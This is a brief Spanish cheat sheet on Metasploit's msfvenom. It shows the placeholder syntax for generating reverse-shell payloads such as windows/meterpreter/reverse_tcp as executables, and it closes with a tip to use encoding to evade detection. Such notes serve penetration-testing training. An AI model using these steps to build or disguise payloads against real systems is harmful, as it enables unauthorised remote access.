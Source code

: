 ### 🔥 **MSFVenom - Generación de Payloads en Metasploit** 🔥

`msfvenom` es una herramienta de **Metasploit** para generar payloads personalizados y crear ejecutables maliciosos. Combina las funciones de `msfpayload` y `msfencode` en una sola utilidad.

---

## 🔹 **1. Sintaxis básica**

```bash
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<PUERTO> -f <FORMATO> -o <ARCHIVO>
```

✅ **Explicación**:

- `-p <PAYLOAD>` → Especifica el tipo de payload (ej. `windows/meterpreter/reverse_tcp`).
- `LHOST=<IP>` → Dirección IP del atacante (tu máquina).
- `LPORT=<PUERTO>` → Puerto donde escucharás la conexión.
- `-f <FORMATO>` → Formato de salida (ej. `exe`, `elf`, `apk`, `raw`, `c`, `python`).
- `-o <ARCHIVO>` → Nombre del archivo de salida.

---
# Resumen

🚀 `msfvenom` es una herramienta poderosa para crear payloads personalizados y obtener acceso remoto a sistemas vulnerables. Para hacerlo más efectivo: ✅ Usa `-e` para evadir detección.  
✅ Modifica manualmente los payloads (`-f c`, `-f python`).  
✅ Configura correctamente `LHOST` y `LPORT`.